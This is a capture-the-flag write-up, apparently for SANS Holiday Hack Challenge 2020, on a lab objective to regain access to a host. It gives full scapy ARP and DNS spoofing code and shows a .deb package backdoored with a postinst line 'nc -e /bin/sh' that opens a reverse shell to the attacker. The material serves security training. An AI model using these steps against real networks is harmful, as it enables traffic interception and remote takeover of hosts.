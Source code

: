 # Objective 9 – ARP Shennanigans #

## OBJECTIVE: ##
>Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP.  Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`.  Who recused herself from the vote described on the document?
#  

## Hints ##
<details>
  <summary>Hints provided for Objective 9</summary>
 
>-	**ALABASTER SNOWBALL:** Jack Frost must have gotten malware on our host at `10.6.6.35` because we can no longer access it.  Try sniffing the eth0 interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.
>-	**ALABASTER SNOWBALL:** The host is performing an ARP request.  Perhaps we could do a spoof to perform a machine-in-the-middle attack.  I think we have some simple `scapy` traffic scripts that could help you in `/home/guests/scripts`.
>-	**ALABASTER SNOWBALL:** Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof.  Let’s return a DNS response resolving the request to our IP.
>-	**ALABASTER SNOWBALL:** The malware on the host does an HTTP request for a .deb package.  Maybe we can get command line access by sending it [a command in a customized .deb file](http://www.wannescolman.be/?p=98).



</details>

#  
## PROCEDURE: ##
Well... judging juist by the sheer amount of hints we get for this objective; I’m guessing it’s going to be a tough one!

Let’s start by following the hints.  Running ``tcpdump -nni eth0``.  We see a number of ARP requests for `10.6.6.53` from `10.6.6.35` (which is the host we need to regain access to).  At this point I’m guessing that `10.6.6.53` is a malicious machine and that `10.6.6.35` is trying to reach it to establish some kind of reverse shell.  So maybe we can get `10.6.6.35` to believe that we are `10.6.6.53`.

We can sniff and record packets by entering `scapy` and running ``pkts = sniff(iface=’eth0’)``.  We can then view specific packets by referencing ``pkts[x]``  or ``pkts.summary()``.

From one of the logged Scapy entries we can see that the `10.6.6.35` machine has a MAC of `4c:24:57:ab:ed:84`
 ![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/89959548-43c7-4e9f-a933-79bcceb779af)

We need to properly craft an ARP response:

`Ether_resp = Ether(dst=4c:24:57:ab:ed:84, type=0x806, src=02:42:0a:06:00:02)`

`arp_response.op=2` *because this is an ARP response*

`arp_response.plen=4` *because there are 4 octets in a IPv4 address*

`arp_response.hwlen=6` *because there are 6 octets in an Ethernet address*

`arp_response.ptype=0x800` *this is the code for IPv4*

`arp_response.hwtype=0x1` *this is the code for Ethernet*

`arp_response.hwsrc="02:42:0a:06:00:02"` *this is my terminal’s MAC*

`arp_response.psrc="10.6.6.53"` *this is the IP I’m spoofing*

`arp_response.hwdst=4c:24:57:ab:ed:84` *this is the MAC obtained in Scapy*

`arp_response.pdst="10.6.6.35"` *this is the IP we’re sending the response to.*


After running `./arp_resp.py` I can see the following output on the tcpdump – looks like a DNS request so I must be on the right track:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/efd14fb2-f627-43b4-9fb3-8e6dee1ec5a3)

It is also possible toget more details from the Scapy sniff – the DNS portion is particularly useful now.
```
<Ether  dst=02:42:0a:06:00:02 src=4c:24:57:ab:ed:84 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=60 id=1 flags= frag=0 ttl=64 proto=udp chksum=0x5a4d src=10.6.6.35 dst=10.6.6.53 |<UDP  sport=42244 dport=domain len=40 chksum=0x9559 |<DNS  id=0 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNSQR  qname='ftp.osuosl.org.' qtype=A qclass=IN |> an=None ns=None ar=None |>>>>
```

Thanks to the hints I now know that I need to spoof a DNS response and have it point to my terminal.  For this I need to update the `dns_resp.py` script with the following parameters:
```
ipaddr_we_arp_spoofed = "10.6.6.53"
eth = Ether(src="02:42:0a:06:00:02", dst="4c:24:57:ab:ed:84")
ip=IP(dst="10.6.6.35", src="10.6.6.53")
udp=UDP(dport=12773,sport=53)
    dns = DNS(
      id=packet[DNS].id,
      qd=packet[DNS].qd,
      aa=1,
      qr=1,
      ancount=1,
      an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
    )
```
To figure out this last bit I had to resort to asking for help on Discord.  **@elakamarcus#5519** helped me out a lot by pointing me towards [a nice script](https://www.cs.dartmouth.edu/~sergey/netreads/local/reliable-dns-spoofing-with-python-scapy-nfqueue.html) online which I used for reference . 

With the scripts ready I started ``tcpdump –nni eth0 –w outfile.pcap`` in one terminal then ran ``./dns_resp.py`` in another terminal and left it running.  Finally I ran ``./arp_resp.py`` in the third terminal and this generated the ARP response we did previously, and then a DNS response to the request that was triggered.  

Looking at the resulting pcap file in Scapy;
```
>>>f=rdpcap(“/home/guest/outfile.pcap”)
>>>f.summary()
>>>f[IP].summary()
```
We now see a number of new requests including http requests.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/0cccf691-cc10-484e-8647-1a13c44b1d85)
 

We can use ``>>> hexdump(f[IP][12].load)`` to see the contents of individual packets.

I now started up a http server as suggested by the HELP.md file:
```
~$ python3 –m http.server 80
```

If I try sending out the crafted ARP response and DNS response packets again I receive a GET instruction on the http server and guess what?.... it looks like Jack Frost is trying to download a file called `suriv_amd64.deb`!

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/61051b2c-f2e1-4eb5-9a66-39dba2de50d9)

 
Well this seems like an opportunity to pass on my own .deb file with a reverse shell to give me access to the compromised terminal.
I created an empty file called `suriv_amd64.deb` and the `/pub/jfrost/backdoor/` directories and I confirm that the file is being download with my http server returning code 200 now.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/377aae44-d9ed-4d79-ae30-8da4fd0cbf68)
  
OK – so all I need is to find some way to make the deb file open a reverse shell when it is installed on the compromised machine.  This is where [the link in one of the hints for this objective](http://www.wannescolman.be/?p=98) came in very handy.

I took the Netcat debian file found in the `debs/` folder and de-packaged it to a temporary folder called `work/`: 
```
~$ dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
```

I created a directory called `DEBIAN` in work
```
~$ mkdir work/DEBIAN
```

I extracted the `control` and `postinst` files from the deb package and moved them to the `work/DEBIAN/` directory:
```
~$ ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb
~$ tar -xf control.tar.xz ./control
~$ tar -xf control.tar.xz ./postinst
~$ mv control work/DEBIAN/
~$ mv postinst work/DEBIAN/
```

Now I added a line to the end of the `postinst` file to have it establish a Netcat reverse shell (We know that Netcat is installed if the deb has been run).
```
~$ echo “nc -e /bin/sh 10.6.0.4 5555” >> work/DEBIAN/postinst
```

And I re-package the deb file:
```
~$ dpkg-deb --build work/
```

Finally I moved the .deb file to the web server, renaming it to the file Jack Frost is looking for:
```
~$ mv work.deb /home/guest/pub/jfrost/backdoor/suriv_amd64.deb
```

Now we start a Netcat listener, start the web server, run the DNS response script and the ARP response script and after a few seconds – we have a Netcat session up and running!  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/87d67274-fb8c-4da2-8e5d-897ed90dfbe0)

Conveniently I’m in the same directory as `NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` and I can simply see its contents with `cat`:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/82d7b466-78d4-487f-acd9-bf649459aa26)

That’s it – **Tanta Kringle** was the one who recused herself from the vote.  I can’t believe I made it this far!!

